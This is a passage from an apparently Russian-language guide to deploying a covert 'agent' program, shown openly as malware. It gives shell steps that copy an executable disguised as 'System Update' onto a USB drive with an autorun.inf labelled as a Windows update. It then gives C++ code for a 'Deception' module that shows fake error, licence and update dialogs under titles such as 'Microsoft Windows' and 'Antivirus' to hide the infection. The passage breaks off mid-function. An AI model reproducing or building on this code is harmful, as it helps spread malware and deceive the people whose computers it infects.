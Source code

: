 ### 6.3 USB/флешка
```bash
# Скопировать агент на флешку
cp "Обновление системы.exe" /media/usb/
echo "Autorun файл" > /media/usb/autorun.inf

# Содержимое autorun.inf:
[autorun]
open=Обновление системы.exe
icon=setup.ico
label=Обновление Windows
```

---

## 🎭 Часть 7: Добавление поддельных сообщений

### 7.1 Реализация функции показа ошибок
```cpp
// Добавьте в agent/src/main.cpp после инициализации агента:

#include <windows.h>
#include <string>
#include <random>

namespace Deception {
    void ShowFakeError() {
        // Массив возможных сообщений
        std::vector<std::string> messages = {
            "Файл поврежден или содержит ошибки.\n\nОбратитесь в службу поддержки:\nsupport@company-help.com\n\nКод ошибки: 0x80070002",
            "Ваш регион не поддерживается данной версией.\n\nПопробуйте скачать региональную версию\nс официального сайта позже.",
            "Установка завершена успешно.\n\nНекоторые изменения вступят в силу\nпосле перезагрузки компьютера.",
            "Недостаточно места на диске для установки.\n\nОсвободите минимум 50 МБ свободного места\nи попробуйте снова.",
            "Срок действия лицензии истек.\n\nОбратитесь к системному администратору\nдля продления лицензии.\n\nТелефон: +7 (495) 123-45-67",
            "Файл не прошел проверку цифровой подписи.\n\nВозможно файл был поврежден при скачивании.\nПопробуйте скачать заново.",
            "Обновление системы завершено.\n\nВнесены критические исправления безопасности.\nРекомендуется перезагрузка.",
            "Ошибка подключения к серверу лицензий.\n\nПроверьте подключение к интернету\nи попробуйте позже."
        };
        
        std::vector<std::string> titles = {
            "Ошибка установки",
            "Ошибка запуска",
            "Системное сообщение", 
            "Microsoft Windows",
            "Служба лицензирования",
            "Центр обновления Windows",
            "Антивирус"
        };
        
        // Случайно выбираем сообщение
        std::random_device rd;
        std::mt19937 gen(rd());
        std::uniform_int_distribution<> msgDis(0, messages.size() - 1);
        std::uniform_int_distribution<> titleDis(0, titles.size() - 1);
        
```